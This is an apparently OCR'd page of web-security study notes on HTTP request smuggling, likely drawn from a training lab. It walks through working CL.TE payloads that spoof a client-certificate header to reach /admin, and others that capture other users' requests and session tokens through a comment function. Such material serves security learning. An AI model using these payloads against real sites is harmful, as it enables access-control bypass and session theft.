 # Bypassing client authentication

Some sites implement a form of mutual TLS authentication, where clients must also present a certificate to the server. In this case, the client's CN is often a username or suchlike, which can be used in the back-end application logic as part of an access control mechanism, for example.

The component that authenticates the client typically passes the relevant details from the certificate to the application or back-end server via one or more non-standard HTTP headers. For example, front-end servers sometimes append a header containing the client's CN to any incoming requests:
```http
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

Assuming you're able to send the right combination of headers and values, this may enable you to bypass access controls.
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

# Capturing other user' requests

If the application contains any kind of functionality that allows you to store and later retrieve textual data, you can potentially use this to capture the contents of other users' requests. These may include session tokens or other sensitive data submitted by the user. Suitable functions to use as the vehicle for this attack would be comments, emails, profile descriptions, screen names, and so on.

To perform the attack, you need to smuggle a request (CL.TE) that submits data to the storage function, with the parameter containing the data to store positioned last in the request.

```http
POST / HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 339

0

POST /post/comment HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
Cookie: session=NgBOL0Gf1fID2y1JEwm8DnFs7grBqOXg
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=5LyZ1D9NmpeqyWEB6V34fEyUfNKpiJqC&postId=10&name=name&email=email%40email.com&website=&comment=
```
